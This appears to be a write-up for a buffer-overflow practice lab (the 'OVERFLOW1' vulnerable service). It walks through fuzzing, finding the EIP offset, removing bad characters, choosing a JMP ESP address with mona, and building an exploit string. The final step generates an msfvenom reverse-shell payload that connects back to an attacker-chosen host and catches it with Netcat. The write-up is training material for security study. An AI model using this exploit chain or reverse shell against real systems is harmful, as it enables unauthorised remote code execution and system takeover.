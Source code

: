 ## FUZZING
Create a file named "fuzzing.py" and write the following Python code in it. After granting execution permission, let's run the file. After running it, the program reported crashing at 2000 bytes, but this is not a precise value.

## CRASH
After performing an nmap scan to identify open ports, let's connect to the open port using Telnet. We will then display the available commands by typing "HELP" Next, we'll interact with "OVERFLOW1" Initially, we can provide some input like "OSCPOSCP" to see if it responds with "OVERFLOW1 COMPLETE" Then, we can attempt to crash the program by providing a larger input, such as "AAA...AA" with approximately 500 'A' characters. As a result, the program should crash.
To investigate further, we can examine the Registers (FPU) tab. Right-click on the ESP value and select "Follow in Dump" To analyze the output in more detail, right-click on the output, and choose "Hex" with a length of 16 bytes. You will see numerous 'A' values, where '41' represents the hexadecimal value of 'A' The most crucial point here is the EIP value, which indicates the part that EIP overflows into after ESP.

## OFFSET
Let's fill the buffer section and place a pointer in the EIP section. 
Create a file named "offset.py" and write the following Python code into the file.
Important note: We will generate the pattern to be placed in the string section using the command /usr/bin/msf-pattern_create -l 2400 . When we sent 2000 bytes, the program crashed. To obtain a precise result, we are creating a 2400- byte pattern.
Copy the resulting pattern and place it in the string section. Then, run "offset.py." The system crashes. Copy the resulting EIP value (query). Running /usr/bin/msf-pattern_offset -l 2400 -q 6F43396E provided the output "Exact match at offset 1978." This means we need a 1978-byte value to fill the buffer.
Now we can adjust our string section (prefix + "A"*1978) We reran the file, and the program crashed.
As a result of our actions, we successfully filled the buffer section without overwriting the EIP section.
## BADCHARS
Since "badchars" is a 4-byte data, let's add it to the string section as follows:
(prefix + "A"*1978 + "B"*4 + badchars)
Place the following "badchars" into a file named "badchars.py" as a variable.
Run the "badchars.py" file.
We observed that our EIP value is "42424242" (BBBB). Let's examine the ESP value by clicking on the "Follow in dump" option.
We observed that there are corruptions, namely "\x00\x07\x2e\xa0" Now, let's use the Mona module: !mona jmp -r esp -cpb "\x00\x07\x2e\xa0"
As a result, we received a list of memory addresses. Right-click on any of them to copy the address.
Inside the "badchars.py" file, let's paste our EIP value as a comment: #EIP 625011AF
Then, instead of the "B" value in the string section, let's write the EIP value in reverse order:
 string = prefix + "A"*1978 + "\xaf\x11\x50\x62"
This code modification will replace the "B" value with the EIP value in reverse format.

## SYSTEM PENETRATION
Let's create a payload to gain privileges on the system. Use the following command to generate the payload
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f py
NOT: EDIT THE OUTPUT.
1. Create a buf variable (buf = " ").
2. Remove all 'b' letters in the entire line.
Let's edit the string section in the "exploit.py" file: string = prefix + "A"*1978 + "\xaf\x11\x50\x62"+"\x90"*16+buf
Start listening with Netcat, then run the "exploit.py" file. The expected result: A session will be established.
